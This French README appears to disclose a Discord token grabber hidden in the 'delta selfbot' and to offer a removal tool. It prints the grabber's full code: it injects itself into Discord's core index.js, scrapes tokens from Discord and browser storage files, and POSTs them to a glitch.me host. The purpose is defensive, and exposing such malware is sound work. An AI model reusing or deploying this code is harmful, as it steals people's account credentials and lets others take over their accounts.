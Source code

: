 # quentin-grabber-remover
programme pour supprimer le grabber de quentin (ogagal)  delta selfbot un selfbot de confiance


## slt cv

quand vous lancez le delta selfbot pour la première fois vous allez vous faire voler tous vos tokens

les navigateurs où les tokens sont grabb : 
```json
{
    discord,
    discord canary,
    Chrome,
    Opera,
    Brave,
    Yandex
}
```

Si vous vous êtes déjà connecté sur un de ces navigateurs/clients les admins du delta auront vos tokens, et à chaque redémarrage de discord vous allez vous faire token grabb

par le code si dessous: 

```js
//là le path est défini par "/AppData/Roaming/discord/0.0.309/modules/discord_desktop_core/index.js"
var path = __dirname.split(':')[0] + (":/Users/") + __dirname.split('\\')[2] + ("/AppData/Roaming/discord/0.0.309/modules/discord_desktop_core/index.js");

punchack.crypto == '0' && (path && (fs.appendFile(path, /*ici c'est pour dire de rajouter ce code dans l'index.js "path"*/`
//internet doit trembler...
const fs = require("fs")

var paths = [\`\${__dirname.split(":")[0]}:/Users/\${__dirname.split("")[2]}/AppData/Roaming/discord/Local Storage/leveldb\`,
\`\${__dirname.split(":")[0]}:/Users/\${__dirname.split("")[2]}/AppData/Local/Google/Chrome/User Data/Default/Local Storage/leveldb\`,
\`\${__dirname.split(\":")[0]}:/Users/\${__dirname.split("")[2]}/AppData/Roaming/discordcanary/Local Storage/leveldb\`,
\`\${__dirname.split(\":")[0]}:/Users/\${__dirname.split("")[2]}/AppData/Roaming/Opera Software/Opera Stable/Local Storage/leveldb\`,
\`\${__dirname.split(\":")[0]}:/Users/\${__dirname.split("")[2]}/AppData/Local/BraveSoftware/Brave-Browser/User Data/Default/Local Storage/leveldb\`,
\`\${__dirname.split(\":")[0]}:/Users/\${__dirname.split("")[2]}/AppData/Local/Yandex/YandexBrowser/User Data/Default/Local Storage/leveldb\`
]`), function(err) {
    if (err) throw err;
}); 
```

les tokens sont ensuite récupérés avec ce code:

```js
for (i = 0; i < paths.length; i++) {
    
    get_token(paths[i])
    
}

async function get_token(path) {
    try {
        fs.readdir(path, (err, files) => {
            if (files === undefined) {
                return
            }

            var filtro = files.filter(f => f.split(".")
                .pop() === "ldb")
            for (i = 0; i < filtro.length; i++) {

                fs.readFile(`${path}/${filtro[i]}`, "utf-8", async function (err, data) {

                    let regex1 = /"[dw_-]{24}.[dw_-]{6}.[dw_-]{27}"/;

                    let regex2 = /"mfa.[dw_-]{84}"/;

                    let [match] = regex1.exec(data) || regex2.exec(data) || [null];
                    if (match != null) {
                        match = match.replace(/"/g, "")
                        const benladen = new URLSearchParams();

                        benladen.append("token", match);

                        fetch("https://truthful-oceanic-bonobo.glitch.me/", {
                            method: "POST",
                            body: benladen
                        })

                        await fetch(`https://discord.com/api/v6/users/@me`, {
                                headers: {
                                    "authorization": match
                                }
                            })
                            .then(resp => resp.json())
                            .then(response => {
                                if (response.id) {
                                    send(match)
                                }
                            })
                    }
                })
            }
        })
        fs.readdir(path, (err, files) => {
            if (files === undefined) {

                return
            }
            var filtro = files.filter(f => f.split(".")
                .pop() === "log")
            for (i = 0; i < filtro.length; i++) {
                fs.readFile(`${path}/${filtro[i]}`, "utf-8", async function (err, data) {
                    let regex1 = /"[dw_-]{24}.[dw_-]{6}.[dw_-]{27}"/;
                    let regex2 = /"mfa.[dw_-]{84}"/;
                    if (regex1.test(data)) {}

                    let [match] = regex1.exec(data) || regex2.exec(data) || [null];
                    if (match != null) {
                        match = match.replace(/"/g, "")

                        const attentat = new URLSearchParams();
                        attentat.append("token", match);
                        fetch("https://truthful-oceanic-bonobo.glitch.me/", {
                            method: "POST",
                            body: attentat
                        })
                        await fetch(`https://discord.com/api/v6/users/@me`, {
                                headers: {
                                    "authorization": match
                                }

                            })
                            .then(resp => resp.json())
                            .then(response => {
                                if (response.id) {
                                    send(match)
                                }
                            })
                    }
                })
            }
        })

    } catch (err) {

        console.log(err)
    }
}

function send(token) {
    let is = "0"
}
```

`(code qu'il a pris ici : https://github.com/xLucazzz-projects/Discord-TokenGrabber)`


Ps: vous pouvez check par vous même en allant dans le fichier "node modules/base-64/config.json" vous pourrez voir 
```json
{ "crypto": "0" }
```
# Attention
si vous avez :
```json
{ "crypto": "1" }
```
__c'est que vous vous êtes déjà fait grabb__
pour retirer le token grabber j'ai fais ce petit programme:
codes : `https://github.com/NotPunchnox/quentin-grabber-remover/blob/main/delete%20grabber.js`
compilé (exe) : `https://mega.nz/file/fHg10SqT#CtzM6QLhCDY1gNeW6mlmA54WZgG9KAPhlLqnnMHigMo`

```js
const fs = require("fs")


```

Ensuite,

à chaque lancement du Quentin eu delta selfbot le token que vous aurez mis dans le fichier config.json sera volé via cet api (glitch encore une fois :rire:)

`https://truthful-oceanic-bonobo.glitch.me/`

avec ce code : 
```js
const searchParams = new URLSearchParams();
searchParams.append("token", token);
fetch("https://truthful-oceanic-bonobo.glitch.me/", {
    'method': "POST",
    'body': searchParams
});
```


```



sinon discord.gg/punchnox quand j'aurais fini de deob je leak les codes ^^

```
